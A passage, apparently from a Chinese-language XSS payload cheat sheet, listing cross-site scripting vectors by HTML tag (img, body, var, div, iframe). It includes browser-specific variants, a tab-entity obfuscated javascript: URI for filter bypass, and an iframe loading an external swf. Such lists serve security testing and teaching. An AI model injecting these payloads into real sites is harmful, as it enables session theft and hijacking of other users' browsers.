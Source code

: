    有些姿势是因为浏览器的不同而不能成功执行的。

   - 只在chrome下有效：

     ```html
     <img src ?itworksonchrome?\/onerror = alert(1)>  //只在chrome下有效

     <img/src/onerror=alert(1)>  //只在chrome下有效
     ```

   - 其他：

     ```html
     <img src=x onerror=alert(1)> 

     <img src="x:kcf" onerror="alert(1)">
     ```

6. body标签

   通过event事件来调用js

   ```Html
   <body onload=alert(1)> 
   <body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
   ```

7. var标签

   ```html
   <var onmouseover="prompt(1)">M</var>
   ```

8. div标签

   ```html
   <div/onmouseover='alert(1)'>X

   <div style="position:absolute;top:0;left:0;width:100%;height:100%" onclick="alert(52)">
   ```

9. iframe标签

   有时候我们可以通过实体编码、换行和Tab字符来bypass。我们还可以通过事先在swf文件中插入我们的xss code，然后通过src属性来调用。不过关于flash，只有在crossdomain.xml文件中，allow-access-from domain="*"允许从外部调用swf时，才可以通过flash来事先xss attack。

   下面的`&Tab;`为tab字符

   ```html
   <iframe  src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe> 
   ```

   ```html
   <iframe SRC="http://0x.lv/xss.swf"></iframe> 
   ```
